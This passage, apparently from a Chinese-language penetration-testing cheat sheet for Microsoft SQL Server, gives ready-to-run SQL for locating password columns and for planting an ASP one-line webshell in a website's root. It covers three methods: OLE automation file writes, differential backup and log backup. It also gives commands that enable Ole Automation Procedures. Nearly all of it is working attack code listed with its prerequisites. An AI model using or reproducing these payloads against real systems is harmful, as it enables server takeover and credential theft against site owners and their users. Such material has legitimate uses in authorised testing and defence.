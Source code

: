###  1.10. <a name='xxpasspwd'></a>xx 库中所有字段名带 pass|pwd 的表

```sql
select [name] from [xx].[dbo].sysobjects where id in(select id from [xx].[dbo].syscolumns Where name like '%pass%' or name like '%pwd%')
```



##  2. <a name='GetShell'></a>GetShell

###  2.1. <a name='-1'></a>存储过程写文件

####  2.1.1. <a name='-1'></a>利用条件

- 拥有DBA权限
- 知道的网站绝对路径

```mysql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'C:\xxxx\www\test.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("a"))%>'
```

###  2.2. <a name='GetShell-1'></a>差异备份GetShell
```sql
backup database web to disk = 'c:\www\index.bak'
create table test(cmd image)
insert into test(cmd) values (0x3C25657865637574652872657175657374282261222929253E)
backup database web to disk = 'c:\www\index.asp' with DIFFERENTIAL,FORMAT
```
###  2.3. <a name='GetShell-1'></a>日志备份GetShell
```sql
alter database web set RECOVERY FULL
create table cmd (a image)
backup database web to disk = 'c:\\www\a.sql'
backup log web to disk = 'c:\www\index1.sql' with init
insert into cmd(a) values('<%execute(request("go"))%>')
backup log web to disk = 'c:\www\shell.asp'
```
###  2.4. <a name='Oleautomationprocedures'></a>Ole automation procedures

####  2.4.1. <a name='-1'></a>利用条件

- 拥有DBA权限

1. 开启Ole automation procedures

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE; EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'show advanced options', 0;
```
